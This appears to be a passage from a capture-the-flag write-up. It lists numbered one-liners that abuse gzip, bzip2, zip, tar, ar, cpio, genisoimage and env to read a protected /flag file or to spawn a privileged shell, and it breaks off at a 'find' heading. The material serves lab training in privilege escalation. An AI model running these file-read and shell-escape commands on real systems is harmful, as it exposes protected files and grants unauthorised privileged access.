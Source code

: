 ```bash
ctf$: split /flag
```

### 17 - gzip

```bash
ctf$: gzip -c /flag | gzip -d
```

### 18 - bzip2

```bash
ctf$: bzip2 -c /flag | bzip2 -d
```

### 19 - zip

```bash
ctf$: LFILE=/flag;TF=$(mktemp -u);zip $TF $LFILE;unzip -p $TF
```

### 20 - tar

```bash
ctf$: LFILE=/flag;tar xf "$LFILE" -I 'sh -c "cat 1>&2"'
```

### 21 - ar

```bash
ctf$: TF=$(mktemp -u);LFILE=/flag;ar r "$TF" "$LFILE";cat "$TF"

```

### 22 - cpio

```bash
ctf$: LFILE=file_to_read
echo "$LFILE" | cpio -o
```

### 23 - genisoimage

```bash
ctf$: genisoimage -sort "/flag"

```

### 24 - env

```bash
ctf$: env sh -p => read file
```

### 25 - find
